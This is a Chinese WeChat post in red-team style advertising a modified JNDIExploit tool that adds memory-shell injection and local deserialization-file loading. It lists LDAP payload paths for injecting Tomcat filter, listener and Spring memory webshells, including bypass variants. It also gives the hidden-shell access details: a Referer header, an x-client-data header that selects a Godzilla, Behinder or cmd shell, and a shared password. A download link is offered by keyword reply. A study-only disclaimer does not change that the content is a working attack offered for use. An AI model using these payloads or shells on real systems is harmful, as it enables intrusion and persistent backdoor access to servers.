 #  【红队】JNDIExploit 改进版   
pap1rman  贝雷帽SEC   2025-04-25 05:24  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
  
**免责声明**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/HVNK6rZ71oofHnCicjcYq2y5pSeBUgibJg8K4djZgn6iaWb6NGmqxIhX2oPlRmGe6Yk0xBODwnibFF8XCjxhEV3K7w/640?wx_fmt=gif&wxfrom=13&wx_lazy=1&tp=wxpic "")  
  
本公众号所提供的文字和信息仅供学习和研究使用，  
请读者自觉遵守法律法规，不得利用本公众号所提供的信息从事任何违法活动。本公众号不对读者的任何违法行为承担任何责任  
。  
工具来自网络，安全性自测，如有侵权请联系删除。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
  
**工具介绍**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
  
对原版JNDIExploit进行修改增加内存马模块和本地序列化文件利用方式  
  
新功能 内存马注入，本地序列化文件  
```
内存马路径任意，连接时候添加Referer头https://www.google.com。并通过x-client-data头指定shell类型godzilla/rebeyond/cmd密码统一为goole 

ldap://127.0.0.1:1389/Basic/tomcatMemshellall1 //注入filter内存马
ldap://127.0.0.1:1389/Basic/tomcatMemshellall2 //注入Listener内存马
ldap://127.0.0.1:1389/Basic/springmemshellall1
ldap://127.0.0.1:1389/tomcatBypass/tomcatmemshellall1 // bypypass绕过方式注入内存shell 
ldap://127.0.0.1:1389/tomcatBypass/tomcatmemshellall2
ldap://127.0.0.1:1389/tomcatBypass/springmemshellall1
```  
  
新增自定义反序列化可以将yso等反序列化内容放到本地然后加载  
```
```  
  
  
                                              
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
  
**工具使用**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lcbWX2ticDCB1GB8ZMX41yWHRA1bYj2cwPd0ZOt5ChCHg4VnkB1UdqPokibibZabBpdyvl8uZuIxKl1zjZKuKATwg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lcbWX2ticDCB1GB8ZMX41yWHRA1bYj2cw6x4A89hONlCxzuHvxWGgEqOicQibO6BYvlJiahzhLFJ0jyPranKKGok4w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lcbWX2ticDCB1GB8ZMX41yWHRA1bYj2cwQ7wXeUEKrRo4HOQb5UVCwvf4t4FASNqnd4vOgEWUqfdeZlV8ZAZDMA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/lcbWX2ticDCB1GB8ZMX41yWHRA1bYj2cwgHMh9YmvZvicRrAoICBic3jGrHtOUQdAoIQ8BduNwdhfSX2cLbicAuQmg/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
**下载链接**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
  
  
回复关键字【250425】获取下载链接  
  
  
  
End  
  
  
“点赞、在看与分享都是莫大的支持”  
  
  
**工具精选**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/4yJaCArQwpACMJuBxI11jPgvHCxQZFQxPrt5iaQRibgGl0aIzFo4hDCYcFuyViag6zhuqNEjjeasfMEAy1rkaOahw/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
  
  
[【红队】一款红队在大量的资产中存活探测与重点攻击系统指纹探测工具](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247487190&idx=2&sn=394a1eaff8e190086c433deee867de3f&chksm=c2e0f706f5977e10c8413873c1ad2f6b460b2e8d66cab0287a9a9725fa6dfadf1dcba1de55bb&scene=21#wechat_redirect)  
  
  
[【红队】集成一站式企业信息资产收集、网络资产测绘的工具。](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247487228&idx=1&sn=2aae55099c7e184272248aef2b0cd569&chksm=c2e0f72cf5977e3abafc9d478a1b75473a6c53103960d09dc3ebf253e69de3a8997471ad9fe3&scene=21#wechat_redirect)  
  
  
[【红队】内网渗透工具-Viper最新版本](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247487150&idx=2&sn=9e4c30dfd565bf6b90caf2778a804427&chksm=c2e0f77ef5977e68368992b591629a395254e648ff0c47cc8e434c54582dcae8ad52d77bbabb&scene=21#wechat_redirect)  
  
  
[【红队】一个辅助平常渗透测试项目或者攻防项目快速打点的综合工具](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247487082&idx=2&sn=fda8ccd6ade17083e732bdd043f1d90f&chksm=c2e0f7baf5977eac8d165e5fce982f8b2bed6c33190f1ba13f8eee13c07d9c121541e64cc24f&scene=21#wechat_redirect)  
  
  
[【红队】afrog v2.7.2 新版本发布](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247487067&idx=2&sn=03b69a7dae831cd49c9baabb6874371a&chksm=c2e0f78bf5977e9dac2c6eeb36a3386de26d365709318ab5bf7be467440f4778b6ba09e4d954&scene=21#wechat_redirect)  
  
  
[【红队】横向移动命令执行工具—WMIHACKER](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247487150&idx=1&sn=9c5af3616d3d30886c00a8935b6ed126&chksm=c2e0f77ef5977e68f24b7490526e497b8ea3d5e42d2b30b8f36514e657e2bbe28db7259f3c8b&scene=21#wechat_redirect)  
  
  
[【红队】Aboutveinmind-tools 容器安全工具集](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247486990&idx=1&sn=f7670c736d17b1060090266452c09af5&chksm=c2e0f7def5977ec8e46cd0dfcf95d350f3bd5c4493432b417ad7a33b96660fe7b8c40d8cd9ac&scene=21#wechat_redirect)  
  
  
[【红队】一个集成了非常多渗透测试工具](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247486692&idx=1&sn=7ce59325b89bc015160bdfe366b01362&chksm=c2e0f534f5977c22f0127142264815233e25c6b4138e1a70d0c65e20885477918b0c71fab41b&scene=21#wechat_redirect)  
  
  
[【红队】一款内网综合扫描工具，一键自动化、全方位漏扫。](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247486673&idx=1&sn=de6d24a0b4a285fc787199b74e0c2117&chksm=c2e0f501f5977c17470c3943d880e0cf6f799b64149666edd68c70bebcc7b6c03bbc2ccc64ac&scene=21#wechat_redirect)  
  
  
[【红队】红队快速打点工具-POC-bomber v3.0.0 版本](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247486565&idx=1&sn=303dd41104f3be3a46480f6db6999853&chksm=c2e0f5b5f5977ca3eab45e9cd8dd3b3c3c8458dbc1124c3f6ecea1bb55713a70ba210df31d1c&scene=21#wechat_redirect)  
  
  
[【红队】Medusa—红队武器库平台](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247486488&idx=1&sn=b4cad24e938c55b6f24719ca1c2a55ac&chksm=c2e0f5c8f5977cde0ac5131ddf78e1ef28cb499b23b60a089794fe4223e3344d2a9fe0a7ba3f&scene=21#wechat_redirect)  
  
  
[【红队】一款C2设施前置流量控制工具](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247486387&idx=1&sn=56630a215dd45bd66136d5742a6e2c5f&chksm=c2e0f263f5977b7574cfee18a9954d2b2e3f0db091e839d03afd52288d932ce5d8c21b9329cc&scene=21#wechat_redirect)  
  
  
[【红队】集成 vscan、nuclei、ksubdomain、subfinder等工具的打点神器--scan4all](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247486235&idx=1&sn=157927b9e599e9044a709ac74ccece68&chksm=c2e0f2cbf5977bdd4e3d04847014aeac9dc3f306d69edbc8d9d4a7eee21ef9d4b78d369093ad&scene=21#wechat_redirect)  
  
  
[【红队】网络安全单兵作战工具-YAKIT](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247486121&idx=1&sn=228b8af22ece479fc30b87e6453023d8&chksm=c2e0f379f5977a6f7d5f90d8d91100d9d9e959151d865fd66649debe099eff86cc1b581f946f&scene=21#wechat_redirect)  
  
  
[【红队】最新 Burpsuite Professional 2023.6.1](http://mp.weixin.qq.com/s?__biz=Mzk0MDQzNzY5NQ==&mid=2247485996&idx=1&sn=8c60f7fca3713655963caeb4a8d0cfbb&chksm=c2e0f3fcf5977aea02b60c5e42df56b8d7c22b13ff6f31eaea6a1622f1b1ce95b9fbc51fa64c&scene=21#wechat_redirect)  
  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pM2klgicgT5dylTzXyrXBmex6dlAsZ0QJOQdzqcw2HpC49rnL0dTHNsWsOze4QmRYN7fPRoLdVK5MXs0DXtOvZw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
                                                   
  
      
  
  
  
